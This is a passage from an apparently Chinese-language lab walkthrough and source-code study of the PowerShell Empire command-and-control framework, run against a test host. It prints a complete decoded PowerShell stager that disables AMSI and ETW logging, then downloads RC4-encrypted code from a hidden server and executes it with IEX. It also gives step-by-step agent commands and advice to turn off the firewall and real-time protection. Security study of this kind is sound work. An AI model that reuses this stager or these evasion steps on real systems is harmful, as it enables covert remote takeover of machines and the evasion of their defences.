u0000$\u0000I\u0000]\u0000,\u0000$\u0000S\u0000[\u0000$\u0000H\u0000]\u0000=\u0000$\u0000S\u0000[\u0000$\u0000H\u0000]\u0000,\u0000$\u0000S\u0000[\u0000$\u0000I\u0000]\u0000;\u0000$\u0000_\u0000-\u0000b\u0000x\u0000o\u0000r\u0000$\u0000S\u0000[\u0000(\u0000$\u0000S\u0000[\u0000$\u0000I\u0000]\u0000+\u0000$\u0000S\u0000[\u0000$\u0000H\u0000]\u0000)\u0000%\u00002\u00005\u00006\u0000]\u0000}\u0000}\u0000;\u0000$\u0000w\u0000c\u0000.\u0000H\u0000e\u0000a\u0000d\u0000e\u0000r\u0000s\u0000.\u0000A\u0000d\u0000d\u0000(\u0000\"\u0000C\u0000o\u0000o\u0000k\u0000i\u0000e\u0000\"\u0000,\u0000\"\u0000c\u0000H\u0000G\u0000A\u0000f\u0000d\u0000L\u0000Z\u0000D\u0000C\u0000E\u0000t\u0000L\u0000M\u0000K\u0000=\u0000l\u0000L\u0000q\u00008\u0000U\u0000w\u0000i\u0000E\u0000u\u0000z\u0000v\u0000I\u0000Q\u0000D\u00004\u0000j\u00007\u0000p\u00006\u0000I\u0000J\u0000s\u0000h\u0000i\u0000i\u00001\u0000E\u0000=\u0000\"\u0000)\u0000;\u0000$\u0000d\u0000a\u0000t\u0000a\u0000=\u0000$\u0000w\u0000c\u0000.\u0000D\u0000o\u0000w\u0000n\u0000l\u0000o\u0000a\u0000d\u0000D\u0000a\u0000t\u0000a\u0000(\u0000$\u0000s\u0000e\u0000r\u0000+\u0000$\u0000t\u0000)\u0000;\u0000$\u0000i\u0000v\u0000=\u0000$\u0000d\u0000a\u0000t\u0000a\u0000[\u00000\u0000.\u0000.\u00003\u0000]\u0000;\u0000$\u0000d\u0000a\u0000t\u0000a\u0000=\u0000$\u0000d\u0000a\u0000t\u0000a\u0000[\u00004\u0000.\u0000.\u0000$\u0000d\u0000a\u0000t\u0000a\u0000.\u0000l\u0000e\u0000n\u0000g\u0000t\u0000h\u0000]\u0000;\u0000-\u0000j\u0000o\u0000i\u0000n\u0000[\u0000C\u0000h\u0000a\u0000r\u0000[\u0000]\u0000]\u0000(\u0000&\u0000 \u0000$\u0000R\u0000 \u0000$\u0000d\u0000a\u0000t\u0000a\u0000 \u0000(\u0000$\u0000I\u0000V\u0000+\u0000$\u0000K\u0000)\u0000)\u0000|\u0000I\u0000E\u0000X\u0000"
> ```
>
> 里面的 `\u0000` 无用, 去除 `\u0000` 并规范化后得到:
>
> ```powershell
> If ($PSVersionTable.PSVersion.Major -ge 3) { 
>     $Ref = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils'); 
>     $Ref.GetField('amsiInitFailed', 'NonPublic,Static').Setvalue($Null, $true); 
>     [System.Diagnostics.Eventing.EventProvider].GetField('m_enabled', 'NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider', 'NonPublic,Static').GetValue($null), 0); 
> }; 
> [System.Net.ServicePointManager]::Expect100Continue = 0; 
> $wc = New-Object System.Net.WebClient; 
> $u = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko'; 
> $ser = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcAA6AC8ALwAxADAAMAAuADEALgAxAC4AMQAzADYAOgA5ADAAOQAwAA=='))); 
> $t = '/login/process.php'; $wc.Headers.Add('User-Agent', $u); 
> $wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy; 
> $wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; 
> $Script:Proxy = $wc.Proxy; 
> $K = [System.Text.Encoding]::ASCII.GetBytes('Huv,3gtsc}#_E:fFXwn2bUPV|iMe0+5R'); 
> $R = { 
>     $D, $K = $Args; $S = 0..255; 0..255 | % {
>         $J = ($J + $S[$_] + $K[$_ % $K.Count]) % 256; $S[$_], $S[$J] = $S[$J], $S[$_] 
>     }; 
>     $D | % { $I = ($I + 1) % 256; $H = ($H + $S[$I]) % 256; $S[$I], $S[$H] = $S[$H], $S[$I]; $_-bxor$S[($S[$I] + $S[$H]) % 256] } 
> }; 
> $wc.Headers.Add("Cookie", "cHGAfdLZDCEtLMK=lLq8UwiEuzvIQD4j7p6IJshii1E="); 
> $data = $wc.DownloadData($ser + $t); 
> $iv = $data[0..3]; 
> $data = $data[4..$data.length]; 
> -join [Char[]](& $R $data ($IV + $K)) | IEX
> ```

---

#### 执行命令以上线主机

执行完后可以获得一行命令, 将其拷贝下来, 然后在靶机侧执行该命令

> 
>
> 也可以使用 CMD, 这里被防火墙拦了, 作为测试使用, 本次先关闭防火墙以及实时防护
>
> 
>
> 
>
> 
>
> 关掉之后就可以成功执行了

成功执行后 empire cleint 会收到一条上线消息:


使用 agents 查看当前上线的主机并可以使用 interact 命令与其交互

```bash
agents
interact [主机名]
```


可以使用 `info` 命令看下该主机的基本信息


也可以弹个计算器:

```bash
shell calc.exe
```

> 需要稍微等待一会儿等待命令执行, 执行完会显示 received
>
> 
>
> 在靶机侧可以看到计算器已经弹出来了
>
> 

可以使用 kill 命令关闭与此 agent 的连接

```bash
# 需要先回到 agents
agents
kill [主机名]
# 确认一下
agents
```

> 

----

## 整体源码架构

> [Empire源码分析（一） - 跳跳糖 (tttang.com)](https://tttang.com/archive/1281/)  -- 19年的博客, 应该是旧版的源码目录分析, 这里作为参考, 可能是检索方法的原因, 也可能是真没有相关资源, 总之并没有检索出什么 Powershell Empire 源码分析的文章

```bash
# 可以在项目根目录下使用 tree 命令以及 -L 参数来指定层级生成项目结构树
tree -L 3 > tree.md
```

然后手动精简一下:

```
.
├── changelog
├── CHANGELOG.md
├── conftest.py
├── Dockerfile
├── docs
│   ├── ...各类帮助文档
├── empire
│   ├── arguments.py
│   ├── client
│   │   ├── client.py
│   │   ├── config.yaml
│   │   ├── downloads
│   │   ├── generated-stagers
│   │   ├── __init__.py
│   │   └── src
│   ├── __init__.py
│   ├── scripts
│   │   └── sync_starkiller.py
│   ├── server
│   │   ├── api
│   │   ├── bypasses
│   │   ├── common
│   │   ├── config.yaml
│   │   ├── core
│   │   ├── csharp
│   │   ├── data
│   │   │   ├── agent
│   │   │   ├── __init__.py
│   │   │   ├── Invoke-Obfuscation    用于混淆 Powershell命令
│   │   │   ├── listeners
│   │   │   ├── misc
│   │   │   ├── module_source
│   │   │   ├── obfuscated_module_source
│   │   │   └── profiles
│   │   ├── downloads
│   │   ├── __init__.py
│   │   ├── listeners    各类listener
│   │   ├── modules      各类后渗透阶段的payload
│   │   ├── plugins		 插件示例
│   │   ├── server.py
│   │   ├── stagers      各类平台下的stager脚本
│   │   └── utils
│   └── test
│       ├── ... 各类测试
├── empire.py    主程序入口
├── LICENSE
├── poetry.lock
├── ps-empire
├── pyproject.toml
├── pytest.ini
├── README.md
├── setup
│   ├── cert.sh
│   ├── checkout-latest-tag.sh
│   └── install.sh
└── tree.md - 刚才生成的项目树结构的文件

36 directories, 87 files
```

> 暂时还没看到的目录便还没标注含义

----

### 主程序入口

`empire.py`:

```python
#! /usr/bin/env python3

import sys

import empire.arguments as arguments

if __name__ == "__main__":
    args = arguments.args

    if args.subparser_name == "server":
        import empire.server.server as server

        server.run(args)
    elif args.subparser_name == "sync-starkiller":
        import yaml

        from empire.scripts.sync_starkiller import sync_starkiller

        with open("empire/server/config.yaml") as f:
            config = yaml.safe_load(f)

        sync_starkiller(config)
    elif args.subparser_name == "client":
        import empire.client.client as client

        client.start(args)

    sys.exit(0)

```

起 Powershell empire

这里看下 server: `empire/server/server.py` 的 `run` 函数

```python
def run(args):
    setup_logging(args)
    check_submodules()
    check_recommended_configuration()

    if not args.restport:
        args.restport = 1337
    else:
        args.restport = int(args.restport[0])

    if not args.restip:
        args.restip = "0.0.0.0"
    else:
        args.restip = args.restip[0]

    if args.version:
        # log to stdout instead of stderr
        print(empire.VERSION)
        sys.exit()

    elif args.reset:
        choice = input(
            "\x1b[1;33m[>] Would you like to reset your Empire Server instance? [y/N]: \x1b[0m"
        )
        if choice.lower() == "y":
            reset()

        sys.exit()

    else:
        base.startup_db()
        global main

        # Calling run more than once, such as in the test suite
        # Will generate more instances of MainMenu, which then
        # causes shutdown failure.
        if main is None:
            main = empire.MainMenu(args=args)

        if not os.path.exists("./empire/server/data/empire-chain.pem"):
            log.info("Certificate not found. Generating...")
            subprocess.call("./setup/cert.sh")
            time.sleep(3)

        from empire.server.api import app

        app.initialize(secure=args.secure_api, ip=args.restip, port=args.restport)

    sys.exit()

```


